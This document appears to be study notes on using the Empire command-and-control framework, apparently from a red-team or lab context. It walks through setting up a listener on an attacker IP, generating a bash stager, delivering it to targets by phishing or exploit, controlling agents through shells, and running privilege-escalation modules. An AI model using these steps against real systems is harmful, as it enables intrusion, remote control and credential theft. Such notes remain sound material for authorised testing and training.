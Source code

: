 # Empire - C2 Framework

Empire is a post-exploitation Command & Control (C2) framework that supports Windows, macOS, and Linux agents. It provides both a CLI and GUI interface for control.

You **can install the client** on a compromised system to pivot and manage internal operations from within a secured network.

---

## Installation

```bash
sudo apt install powershell-empire starkiller
````

---

## Starting Empire

### Empire Server

```bash
sudo powershell-empire server
```

### Empire CLI Client

```bash
powershell-empire client
```

If hosted locally, the client connects automatically.
If remote, either edit the config file:

```bash
/usr/share/powershell-empire/empire/client/config.yaml
```

Or use the manual connection command after launching the client:

```bash
connect HOSTNAME --username=USERNAME --password=PASSWORD
```

---

## Empire C2 Workflow – Steps Only

1. Start the Empire C2 server on your attack machine.

2. Launch the client interface (CLI or Starkiller GUI).

3. If using a remote server, connect to it with the correct credentials.

4. Create a listener (e.g., HTTP/S, TCP) to receive agent callbacks.

5. Generate a payload (stager) linked to the listener.

6. Deliver the payload to the target system using phishing, exploit, or another method.

7. Wait for the target system to execute the payload and connect back.

8. Monitor for new agent connections in the client interface.

9. Interact with the agent to run commands, collect data, or pivot further.

10. When finished, rename, kill, or manage agents as needed.

Other useful commands:

* `back` — return to agents menu
* `kill AGENT_NAME` — terminate the agent
* `rename AGENT_NAME NEW_NAME` — rename for clarity

---

### Component Summary

| Component        | Location        | Purpose                   |
| ---------------- | --------------- | ------------------------- |
| Empire Server    | Local or Remote | Backend, manages C2 logic |
| Client (CLI/GUI) | Local or Remote | Control interface         |
| Agent (Payload)  | On Victim       | Connects to listener      |
| Listener         | On Server       | Handles agent callbacks   |

---

## Listeners

A passive service on the Empire server that waits for incoming agent connections.

From the interactive CLI:

```bash
uselistener http
```

Set required options (case-sensitive):

```bash
set Name HCLI
set Host 10.50.82.226       # Attacker IP
set Port 8000               # Listening port
execute
```

Exit listener menu:

* `back` — go back
* `main` — return to main menu

Stop a listener:

```bash
kill LISTENER_NAME
```

Or use **Starkiller** for GUI control.

---

## Stagers

A lightweight payload that initiates a connection from the target to the listener, establishing an agent.

Create a payload using:

```bash
usestager multi/bash
set Listener HCLI
execute
```

This generates a Bash script. Deliver it to the target and run it.

> For in-terminal execution, remove the shebang (`#!/bin/bash`) and file deletion lines.

---

## Agents

A persistent session on a compromised machine that communicates with Empire and executes tasks.

To view and manage active sessions:

```bash
agents
```

Interact with an agent:

```bash
interact AGENT_NAME
```

Run commands:

* `shell` — get an interactive shell
* `shell COMMAND` — run a command directly
* `back` — exit agent interaction (agent remains active)
* `kill AGENT_NAME` — terminate agent session
* `rename AGENT_NAME NEW_NAME` — rename the agent

---

## Empire Modules

Empire provides post-exploitation modules that can be run on active agents for privilege escalation, reconnaissance, credential dumping, and more.

### Using a Module

1. Select a module (e.g., `powershell/privesc/sherlock`).
2. (Optional) Set the target agent if not already interacting.
3. Execute the module.
4. View the results in the CLI or in the **Reports** tab (if using Starkiller).

### Example: Sherlock (Privilege Escalation Check)

* Use the `powershell/privesc/sherlock` module.
* No need to set options if already in an agent context.
* Output is shown in terminal or Starkiller’s Report tab.

> **Note:** Modules vary by OS, agent type, and context. Always check compatibility before executing.

### Notes

* Listeners and agents are case-sensitive in commands.
* Use `options` in CLI to see configurable values.
* `Starkiller` is a powerful GUI tool — use it for easier visualization and management.
